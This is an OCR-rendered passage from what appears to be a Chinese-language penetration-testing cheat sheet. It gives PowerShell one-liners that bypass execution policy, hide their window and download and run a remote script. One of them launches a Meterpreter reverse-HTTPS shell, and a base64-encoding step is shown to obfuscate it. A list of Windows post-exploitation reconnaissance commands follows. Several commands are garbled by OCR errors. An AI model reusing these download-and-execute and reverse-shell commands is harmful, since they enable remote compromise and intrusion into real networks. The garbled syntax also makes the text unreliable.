 ```
Powershell.exe -ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-NonIIEX(New-ObjectNet,WebClient).DownloadString("xxx.ps1");[Parameters]

Powershell.exe -ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-NonIIEX(New-ObjectNet,WebClient).DownloadString("http://xxx.com/ps.ps1"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.1 -lport 80
```

- 使用base64混淆

```
echo "IEX(New-ObjectNet,WebClient).DownloadString("http://xxx.com/ps.ps1"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.1 -lport 80 -Force" >raw.txt 

chmod +x ps_encode.py

./ps_encode.py -s raw.txt

Powershell.exe -NoP -NonI -W Hidden -Exec Bypass -enc xxxx
```

## 内网信息搜集

### 收集本机信息

```
ipconfig /all 获取本机网络配置信息
systeminfo | finder /B /C:"os Version" 操作系统和版本信息

echo %PROCESOR_ArCHITECTURE% 系统系统结构

wmic_product_get_name,version 结果输出到文本

Powershell.exe "Get-WmiObject -class Win32_Product | Select-Object -Property name,version" powershell收集

wmic service list brief 查询本机服务信息

tasklist 当前进程和进程用户

wmic process list brief 进程信息

wmic startup get command,caption 查看启动程序信息

schtasks /query /to LIST /V 查看计划任务

net statistics workstation 查看主机开机时间

net user 查看用户列表

net localgroup administrators 获取本地管理员信息

query user || qwinsta

netstat -ano 查询端口列表

systeminfo 查询补丁列表
wmic qfe get Caption,Descript,HotFixID,InstalledOn 查询补丁

net share 查询本机共享列表
wmic share get name,path,status

route print 查询所有可用接口的ARP缓存表
arp -a 
```